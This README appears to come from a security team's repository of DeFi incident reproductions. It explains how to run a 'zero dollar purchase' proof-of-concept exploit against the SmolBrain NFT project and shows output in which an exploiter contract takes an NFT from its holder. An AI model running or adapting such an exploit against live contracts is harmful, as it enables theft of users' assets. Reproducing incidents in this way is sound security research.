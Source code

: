 # SmolBrain Zero Dollar Purchase PoC

## How to run

Set up the environment variable for $MORALIS_KEY

```
$  git clone https://github.com/blocksecteam/defi_poc
$  export $MORALIS_KEY = xxxxx
$  cd ./SmolBrain
$  npm install

then 

$  sh run.sh
```

```
$  sh run.sh
Compiled 3 Solidity files successfully
🧛 Exploiter Contract deployed to: 0x5FC8d32690cc91D4c39d9d3abcBD16989F875707
🥷 The holder of the NFT before the attack: 0xd3FeeDc8E702A9F191737c0482b685b74Be48CFa
🧛 The holder of the NFT after the attack: 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
```

---

## link

- [https://twitter.com/BlockSecTeam/status/1499321063372898304](https://twitter.com/BlockSecTeam/status/1499321063372898304)
